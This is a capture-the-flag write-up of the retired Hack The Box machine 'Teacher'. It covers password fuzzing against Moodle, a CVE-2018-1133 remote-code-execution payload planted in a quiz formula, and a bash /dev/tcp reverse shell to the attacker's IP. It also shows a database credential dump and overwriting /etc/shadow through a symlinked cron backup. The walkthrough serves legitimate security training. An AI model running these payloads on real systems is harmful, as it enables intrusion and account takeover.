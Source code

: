 # Teacher

This is the write-up for the box Teacher that got retired at the 20th April 2019.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.153    teacher.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/teacher.nmap 10.10.10.153
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

## Checking HTTP (Port 80)

The web page is a website of a fictional school _"Blackhat Highschool"_ with some links that don't work forward anywhere and stock text.
In the HTML source code of _/gallery.html_ is one suspicious line:
```html
<li><a href="#"><img src="images/5.png" onerror="console.log('That\'s an F');" alt=""></a></li>
```

When clicking on _/images/5.png_ it shows an error:
```markdown
The image "http://10.10.10.153/images/5.png" cannot be displayed because it contains errors.
```

Downloading it with `wget` and looking what kind of file type this is:
```markdown
file 5.png
5.png: ASCII text
```

It is a text file that can be read:
```markdown
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Lets search for hidden directories with **Gobuster** to see where these credentials could be used:
```markdown
gobuster -u http://10.10.10.153 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If finds the directory _/moodle_ that forwards to a [Moodle platform](https://moodle.org/) which is an Open-Source _Learning Management System (LMS)_ written in PHP.

All links forward to the login page _/moodle/login/index.php_ as our access is restricted.
By sending this to a proxy tool like **Burpsuite** we can see the request parameters and fuzz for the last character of the password with **Wfuzz**:
```markdown
wfuzz -u http://10.10.10.153/moodle/login/index.php -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt
```

The _number sign (#)_ responds with a different character length, so this is probably the last character of the password.
Login with the username _Giovanni_ and the password _Th4C00lTheacha#_ works.

### Exploiting Moodle

To exploit **Moodle**, the installed version number has to be found.
This can be done by clicking on _"Moodle Docs for this page"_ in the footer of the page, which forwards to the [Moodle documentation for version 3.4](https://docs.moodle.org/34/en/Participants) that was [released in November 2017](https://docs.moodle.org/dev/Moodle_3.4_release_notes).

After searching for vulnerabilities for this version, a blog post from the [RIPS TECH Blog](https://blog.ripstech.com/2018/moodle-remote-code-execution/) explains a Remote Code Execution with the name **Evil Teacher** or **CVE-2018-1133**.

Lets follow the steps of RIPS TECH explanation to exploit this vulnerability.

Creating a quiz:
```markdown
Site home --> Algebra --> Gear symbol on the top right --> Turn editing on
```
```markdown
Add an activity or resource --> Quiz --> Add
```

Giving it a name, changing nothing else in the configuration and saving it by clicking on _"Save and display"_.

![Creating a quiz](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-1.png)

Creating question for the quiz:
```markdown
Edit quiz --> Add --> a new question --> Calculated
```

![Creating question](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-2.png)

```markdown
Question name: Test question name

Question text: Is this a question?

Answer 1 formula = /\*{a\*/\`$_REQUEST[cmd]\`;//{x}}
```

![Payload in answer formula](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-3.png)

```markdown
Save changes --> Do no synchronise --> Next page
```

The current page can be sent to **Burpsuite** to test code execution:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=ping+-c+1+10.10.14.2
```

The test command will ping my IP once, so lets listen on incoming ICMP traffic with `tcpdump`:
```markdown
tcpdump -i tun0 -n icmp
```

After sending the request, the ping packet reaches my client and proofs command execution.
Lets execute a reverse shell command:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/9001+0>%261'

# Command URL-decoded:
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/moodle_ are the configuration files. In _config.php_ are credentials to the **MySQL database**:
```markdown
(...)
dbname = 'moodle';
dbuser = 'root';
dbpass = 'Welkom1!';
(...)
```

Connecting to the database:
```markdown
mysql -u root -D moodle -p
```
```markdown
MariaDB [moodle]> show databases;

MariaDB [moodle]> select id, username, password from mdl_user;
```
```markdown
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+------+-------------+--------------------------------------------------------------+
```

There are password hashes found and the password hash of _Giovannibak_ is different than the others as it is 32 characters long and thus probably a **MD5 hash**.

When searching for the MD5 hash on **Hashes.org** it is found and decodes to:
> expelled

Switching user to _giovanni_:
```markdown
su - giovanni
```

The password works and we get logged in as _giovanni_.

### Privilege Escalation to root

In the home directory _/home/giovanni_ is a folder called _/work_ and in there are files that according to their date, changed something today.
This could be a hint that an automated **cronjob** is doing this.

Running processes of all users can be enumerated with [pspy](https://github.com/DominicBreuker/pspy):
```markdown
wget 10.10.14.2/pspy32

./pspy32
```

After waiting for a while **pspy** detects the commands that are running:
```markdown
/bin/sh -c /usr/bin/backup.sh
```

Contents of _/usr/bin/backup.sh_:
```markdown
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

The script compresses some files and after decompressing them, changes the permissions so everyone can read, write and execute them.
By creating a **symlink** from _/home/giovanni/work/tmp_ to _/etc/shadow_, the permissions of the **Shadow file** can be changed:
```markdown
rm -rf ./tmp

ln -s /etc/shadow /home/giovanni/work/tmp
```

Changing password of root to password of _giovanni_:
```markdown
echo 'root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::' >> /etc/shadow
```

With the password _"expelled"_ it is now possible to change users to root!
```markdown
su - root
```
